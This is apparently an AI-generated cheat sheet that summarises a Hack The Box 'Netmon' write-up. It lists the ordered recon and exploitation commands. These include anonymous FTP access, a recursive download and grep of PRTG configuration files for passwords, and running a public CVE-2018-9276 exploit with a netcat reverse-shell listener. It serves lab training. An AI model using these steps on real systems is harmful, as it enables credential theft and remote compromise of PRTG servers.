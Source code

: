 Here’s the complete list of tools and commands used in Anans1’s [HTB Netmon Write-up](https://anans1.medium.com/htb-netmon-write-up-1fa67f3c7bcb), organized in the order they were used:

---

## 🧰 Tools Used

- `nmap`
- `ftp`
- `wget`
- `grep`
- Web browser (for accessing PRTG Network Monitor login)
- Exploit from GitHub: [A1vinSmith/CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276)
- Python3 (to run the CVE-2018-9276 exploit)

---

## 💻 Commands (In Order)

### 🔍 Recon
```bash
sudo nmap -A 10.10.10.152 -p-
```

### 📂 [FTP](FTP.md) Enumeration
```bash
ftp 10.10.10.152
# Login as anonymous
# Navigate and find user.txt
```

### ⚠️ [SMB](SMB.md) Enumeration Attempt
```bash
# Attempted but failed without credentials
```

### 🌐 [Web Enumeration](HTTP)
```text
# Visit http://10.10.10.152 and observe PRTG login page
# Try default creds: prtgadmin:prtgadmin (fails)
```

### 🔍 Find Stored PRTG Credentials
```bash
# Go back to FTP and look under:
ftp> cd /ProgramData/Paessler
ftp> ls

# Exit FTP and download recursively:
wget -r ftp://10.10.10.152/ProgramData/Paessler
```

### 🔎 Search Downloaded Configs for Passwords
```bash
grep -r -l 'password' PRTG\ Network\ Monitor 2>/dev/null
# Find PRTG Configuration.old.bak
```

### 🧠 Critical Thinking: Try Common Variation
```text
# Use password: PrTg@dmin2019
# Login successfully to PRTG web interface
```

### 📡 Exploitation: CVE-2018-9276
```bash
# Clone or download exploit:
git clone https://github.com/A1vinSmith/CVE-2018-9276.git
cd CVE-2018-9276

# Run the exploit script (Python 3):
python3 exploit.py -t 10.10.10.152 -u prtgadmin -p 'PrTg@dmin2019' -l 10.10.14.X -P 4444

# On attacker box, setup listener:
nc -lvnp 4444
```

---

Let me know if you want this turned into a Markdown template or a printable cheatsheet! 🛠️📄